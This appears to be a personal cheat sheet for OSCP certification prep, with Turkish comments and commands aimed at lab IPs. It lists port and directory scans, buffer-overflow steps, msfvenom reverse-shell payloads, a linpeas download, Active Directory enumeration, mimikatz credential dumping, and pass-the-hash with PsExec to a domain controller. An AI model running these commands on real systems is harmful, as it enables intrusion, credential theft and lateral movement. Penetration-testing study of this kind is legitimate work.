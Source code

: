 # OSCP-Prep-Notes

## İlk taramalar

nmap -sS -sV -v IP -p- #Tüm portlara stealth scan at.


gobuster dir -u http://192.168.174.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 #dir taraması

#-x php,txt,py,c,js,bak,gz,tar,html,db,php.bak,key,jsp,asp # extension taraması

#-b 404 -s 201 # status code özelleştirme

## BOF

!mona config -set workingfolder c:\mona\%p

!mona bytearray -b "\x00"

!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS/EBX_ADDRESS>

--

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 -b "\x00\x0a\x0d\x20\x37" -o exploit.txt

sfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c

msfvenom -p windows/exec CMD="cmd.exe" -b '\x00\x0a\x1a' -f c


msf-pattern_create -l 5000 > exploit.txt

msf-pattern_offset -q 413461A2 -l 5000







## Privilege Escalation

wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

sudo -l

## Active Directory

net user # Enumerate all of the local accounts.

net user /domain # Enumerate all users in the entire domain.

net user admin_onur /domain # Enumerate spesific 'admin_onur' user in the domain.

net group /domain # Enumerate all the groups in the domain.



### mimikatz

privilege::debug # admin

lsadump::lsa /patch # ntlm pass hashes dump

klist #cached tickets

sekurlsa::logonpasswords #dump pass hashes

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

PsExec64.exe \\dc01 cmd.exe # powershell acildiginda dcye baglan


### PowerView

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview



